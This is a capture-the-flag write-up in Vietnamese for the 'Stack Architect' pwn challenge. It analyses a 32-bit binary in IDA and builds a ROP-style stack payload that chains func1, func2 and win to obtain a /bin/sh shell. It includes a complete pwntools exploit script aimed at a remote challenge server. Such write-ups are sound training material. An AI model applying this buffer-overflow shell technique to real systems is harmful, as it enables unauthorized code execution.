



# STACK ARCHITECT (pwn)

> Khởi động

## Exploit

- Kiểm tra chương trình với `file`, là file binary 32bit

  

- Kiểm tra với `checksec`, NX được bật, vậy không thể dùng shellcode, Stack Canary, PIE đều được tắt

  

- Chạy chương trình, không có gì xảy ra

  

- Sử dụng `IDA`, có các hàm cần kiểm tra

  

- Kiểm tra pseudo hàm `main`, không có gì đặc biệt

  

- Kiểm tra pseudo hàm `win`, ta thấy cần các biến `check2`, `check3`, `check4` bằng 1. Sau đó thì thực hiện lệnh `system(command)` với `command = "*]di*nc" + 5 = "/bin/sh"`

  

- Kiểm tra pseudo hàm `func1`, tại đây có các biến `check2`, `check3`. `s1 == "I'm sorry, don't leave me, I want you here with me ~~"`. thì `check2 = 1` Và sau khi có `check2 = 1` thì arg `a1` của `func1` sẽ phải bằng `536937736 = 0x20010508` thì `check3 = 1`. Như vậy phải cần ít nhất 2 lần thực hiện `func1`

  

- Kiểm tra pseudo hàm `func2`, tại đây có biến `check4`, và cần `check2`, `check3` bằng 1, biến `v1` nằm tại `esp` bằng `134553601 = 0x08052001` thì `check4 = 1`. Vậy ta cần thực hiện `func1` trước 2 lần, và sau khi có `check2`, `check3` bằng 1 thì ta sẽ thực hiện `func2`.

  

- Tại `func1` lần 2, vì cần arg, nên giá trị ebp + 8 sẽ là arg, sau đó ta cần `pop; ret` 1 lần nữa để tránh `ret` vào arg. Cụ thể hơn xem ở stack bên dưới

- Sau mỗi lần `ret`, giá trị của `ebp` luôn được giữ nguyên, và giá trị tại địa chỉ cũ của ebp (vị trí ebp của hàm cũ), sau khi `ret` vẫn còn giữ nguyên, vì vậy ta có thể ghi giá trị `0x08052001` vào `esp` tại hàm `main`, khi đến hàm `func2` lần 1, thì giá trị tại `ebp - 4` sẽ là arg của hàm `func1` thứ 2, gọi thêm 1 lần hàm `func2` nữa, thì giá trị `ebp` cũ (`ebp - 4`) = `0x08052001`. Cụ thể hơn xem ở stack bên dưới

  

- Ta sẽ xây dựng stack, đầu tiên, Với mỗi lần `ret`, `ebp` = `ebp + 4`

- Tại đầu hàm `main`, `esp - 0x50`

  

- Tại hàm `func1` giá trị của biến nhập vào sẽ là `ebp - 0x54`, tương tự với biến nhập vào tại hàm main, sau khi di chuyển stack, ta có đoạn payload đầu tiên. Và cần nhập thêm các ký tự null để khi so sánh chỉ lấy đúng chuỗi. Chi tiết tại hình stack bên dưới

  ```python
  payload = b'A'*4 + b'I\'m sorry, don\'t leave me, I want you here with me ~~'
  payload +=  b'\x00'*27
  ```

  

  

- Như đã đề cập về `func2` ở trên, payload tại `ebp`

  ```python
  payload += p32(0x08052001)
  ```

- Tiếp theo là 2 lần hàm `func1`, cùng với `pop; ret` và arg `func1` lần 2

  ```python
  payload += p32(func1Addr)
  payload += p32(func1Addr)
  payload += p32(popretAddr)
  payload += p32(0x20010508)
  ```

- Sau đó là 2 lần `func2`

  ```python
  payload += p32(func2Addr)
  payload += p32(func2Addr)
  ```

- Sau đó là hàm `win`

  ```python
  payload += p32(winAddr)
  ```

- Xây dựng stack

  

- Các địa chỉ cần tìm: `func1`, `func2`, `win`, `pop ebx; ret`

  

  

- Như vậy, có được code exploit [StackArchitect.py](StackArchitect.py)

  ```python
  from pwn import *


  #p = process('./stack_architect')

  p = remote('45.122.249.68', 10018)

  func1Addr = 0x804929e
  func2Addr = 0x80492fe
  winAddr = 0x8049216
  popretAddr = 0x08049022

  payload = b'A'*4 + b'I\'m sorry, don\'t leave me, I want you here with me ~~'
  payload +=  b'\x00'*27
  payload += p32(0x08052001)
  payload += p32(func1Addr)
  payload += p32(func1Addr)
  payload += p32(popretAddr)
  payload += p32(0x20010508)
  payload += p32(func2Addr)
  payload += p32(func2Addr)
  payload += p32(winAddr)

  p.sendline(payload)

  p.interactive()
  ```

  

> Flag: Wanna.One{neu_ban_chinh_phuc_duoc_chinh_minh_ban_co_the_chinh_phuc_duoc_the_gioi}